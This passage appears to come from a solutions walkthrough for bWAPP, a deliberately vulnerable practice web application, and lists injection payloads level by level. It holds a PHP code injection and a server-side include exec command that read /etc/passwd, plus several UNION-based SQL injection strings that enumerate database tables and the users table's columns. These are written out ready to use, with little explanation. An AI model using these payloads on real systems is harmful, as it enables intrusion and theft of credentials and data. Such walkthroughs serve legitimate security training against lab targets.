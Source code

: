 ```
/bWAPP/phpi.php?message=a;echo "what"; $fp = fopen("/etc/passwd","r");$result = fread($fp,8192); echo $result
```
### Server-Side Includes:

```
<!--#echo var="DATE_LOCAL" -->
<!--#exec cmd="cat /etc/passwd" -->
```

### SQL Injection (GET/SEARCH)

```
a%' UNION ALL SELECT table_schema,table_name, null, null, null, null, null from information_schema.tables;--
```

### SQL Injection (GET/SELECT)

```
movie=1 UNION ALL SELECT table_schema, table_name, null, null, null, null, null FROM information_schema.tables LIMIT 1 OFFSET 1;--
```
![](https://github.com/skiptomyliu/solutions-bwapp/blob/master/screenshots/sqli_2_1.png)
![](https://github.com/skiptomyliu/solutions-bwapp/blob/master/screenshots/sqli_2_2.png)

### SQL Injection (POST/Search)
/bWAPP/sqli_6.php

```
a%' UNION ALL SELECT table_schema,table_name, null, null, null, null, null from information_schema.tables;-- 
```

### SQL Injection (POST/Select)

Use Burp
```
movie=1 UNION ALL SELECT table_schema, table_name, null, null, null, null, null FROM information_schema.tables LIMIT 1 OFFSET 1;--
```

### SQL Injection (AJAX/JSON/jQuery)
Use Burp 
```
a%' UNION ALL SELECT table_schema,table_name, null, null, null, null, null from information_schema.tables;--
```
![](https://github.com/skiptomyliu/solutions-bwapp/blob/master/screenshots/sqli_10_1.png)

a%' UNION ALL SELECT 1, column_name, null, null, null, null, null from information_schema.columns where table_name="users";-- 
